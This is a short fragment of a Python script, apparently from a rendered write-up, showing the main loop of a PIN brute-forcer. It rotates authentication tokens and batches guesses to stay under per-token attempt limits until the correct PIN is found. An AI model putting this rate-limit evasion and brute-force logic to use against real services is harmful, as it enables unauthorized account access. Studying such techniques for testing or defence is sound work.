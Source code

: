 ```python
            print(f"Rotated token: {current_token[:20]}...")

            batch_size = min(ATTEMPTS_PER_TOKEN, len(failed_pins) - failed_index)
            batch = failed_pins[failed_index:failed_index + batch_size]

            for pin in batch:
                request_start_time = time.time()
                success = process_pin(pin, current_token, request_start_time, failed_pins)  # Pass failed_pins for potential re-failures
                if success:
                    return  # Exit if correct PIN is found

            failed_index += batch_size

    print("Exhausted all PINs without success.")

if __name__ == "__main__":
    main()
```

![image.png](images/image%2059.png)

